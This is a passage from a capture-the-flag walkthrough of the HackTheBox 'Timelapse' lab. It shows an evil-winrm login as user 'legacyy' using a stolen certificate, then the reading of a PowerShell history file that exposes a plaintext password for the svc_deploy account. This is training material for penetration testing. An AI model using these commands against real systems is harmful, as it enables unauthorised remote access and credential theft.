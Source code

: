With these files generated, we were equipped to proceed with passwordless authentication via `WinRM`.

# SHELL AS LEGACYY

To authenticate over `WinRM`, we had the certificates ready, but we still needed a valid username.

Looking closely at the filename `legacyy_dev_auth.pfx`, we noticed that the word `legacyy` had an extra `y`. This could have been a mistake during certificate creation, or it might actually be a valid username.

```shell
┌──(kali㉿kali)-[~/Documents/ctf/htb/timelapse]
└─$ evil-winrm -i 10.10.11.152 -u legacyy -k ./legacyy_dev_auth2.pem -c ./legacyy_dev_auth.crt -p '' -S 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```

We decided to try logging in using the username `legacyy` with the help of `evil-winrm`, as port `5986` was open instead of the standard port `5985` (normally used for `WinRM`). Surprisingly, our attempt was successful.

This allowed us to gain access to the system as the user `legacyy`.

# PRIVILEGE ESCALATION

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> cat ..\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```
